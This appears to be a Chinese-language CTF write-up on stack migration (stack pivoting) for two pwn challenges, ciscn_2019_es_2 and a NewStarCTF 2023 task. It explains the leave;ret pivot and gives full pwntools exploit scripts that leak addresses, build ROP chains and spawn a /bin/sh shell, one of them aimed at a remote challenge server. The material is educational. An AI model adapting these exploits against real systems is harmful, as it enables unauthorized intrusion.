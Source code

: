 ```yaml
---
title: Stack Migration
tags: [ctf-pwn,stack]
date: 2023-10-11 14:10:00
categories: [ctf-pwn]
excerpt: 栈迁移/栈劫持
---
```


### Stack Migration

#### ciscn_2019_es_2

https://buuoj.cn/challenges#ciscn_2019_es_2

![](/img/ctf-pwn/stack_migration/1.jpg)

溢出的长度不足以写rop链，劫持rbp到一个足够大的空间里去

首先通过调试查看ebp到可输入空间开头的距离

```python
gdb.attach(p, "b *0x080485FC") # 在python pwntools里下断点的方法（要放在开头），进去按一下c
```

![](/img/ctf-pwn/stack_migration/2.jpg)

程序输出的rbp为`0xffdb7098`，和图中aaaa的位置相差0x38，一会就要将ebp覆盖为ebp-0x38，从而开辟足够的空间来构造rop

然后`vul()`函数原本的返回地址被`&(leave ret)`取代了这样在`vul()`执行结束时，相当于多执行一次leave ret

过程如下：

```
1. vul()原本的leave
esp->ebp-0x38   ebp->aaaa   esp->leave ret
2. vul()原本的ret
eip->leave ret  esp->比返回地址再低4个字节的位置上
3. leave
esp->aaaa    ebp == aaaa  esp->system@plt
4. ret 
eip->system@plt   esp->system的返回地址（瞎写的）
```

这时，就相当于一个普通的rop了，system@plt为一个被溢出的返回地址，在他后面的是system的返回地址和它的参数，而"/bin/sh\x00"为一个字符串，需要一个指针指向它，因此需要计算一下binsh的地址。

由于aaaa是ebp-0x38，binsh距离aaaa有16个字节，那么这个地方填上ebp-0x28，就能给system传进去binsh的参数了。



**exp**

```python
from pwn import *
r = process("./ciscn_2019_es_2")
#r=remote('node4.buuoj.cn',25391)
gdb.attach(r, "b *0x080485FC") 
sys=0x8048400
leave_ret=0x08048562
main=0xdeadbeef

payload='a'*0x27+'b'
r.send(payload)
r.recvuntil("b")
ebp = u32(r.recv(4))
print(hex(ebp))

payload2=b'aaaa'+p32(sys)+p32(main)+p32(ebp-0x28)+b"/bin/sh"
payload2=payload2.ljust(0x28,b'\x00')
payload2+=p32(ebp-0x38)+p32(leave_ret)

r.send(payload2)
r.interactive()
```

#### 





#### NewStarCTF 2**023** 

stack migration

![](/img/ctf-pwn/stack_migration/3.jpg)

和前面的唯一区别在于需要先泄露libc地址，题目又给了libc

需要注意的还是不要sendline，因为会多一个\n，占掉了下一次输入，payload2就输入不进去了

```python
from pwn import *
#p = process("./pwn")
p = remote("node4.buuoj.cn",25029)

#gdb.attach(p, "b *0x4012a9")
e = ELF("./pwn")

#context.log_level="debug"

leave_ret = 0x4012aa
poprdi_ret = 0x401333
puts_got = e.got["puts"]
puts_plt = e.plt["puts"]
#main = e.sym["main"]
main = 0x4012ac
start = 0x4010b0

p.recvuntil(b"your name:\n")
payload = b"12345678"
p.send(payload)
p.recvuntil(b"I have a small gift for you: ")
buf_addr = eval(p.recv(14))
print(hex(buf_addr))


p.recvuntil(b"more infomation plz:\n")
payload2 = ( p64(poprdi_ret) + p64(puts_got) + p64(puts_plt) + p64(start)).ljust(80,b'a')
payload2+= p64(buf_addr) + p64(leave_ret)
p.send(payload2)


p.recvuntil(b"maybe I'll see you soon!\n")

puts_addr = u64(p.recvuntil(b"\x7f").ljust(8,b"\x00"))

print("puts:----" + str(hex(puts_addr)))


libc = ELF("libc.so.6")
libc.address =  puts_addr - libc.sym['puts']
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))


p.recvuntil(b"your name:\n")
payload = b"12345678"
p.send(payload)
p.recvuntil(b"I have a small gift for you: ")
buf_addr = eval(p.recv(14))
print(hex(buf_addr))

p.recvuntil(b"more infomation plz:\n")
payload2 = (p64(poprdi_ret) + p64(binsh) + p64(system)).ljust(80,b"a")
payload2+= p64(buf_addr) + p64(leave_ret)
p.sendline(payload2)

p.interactive()

```

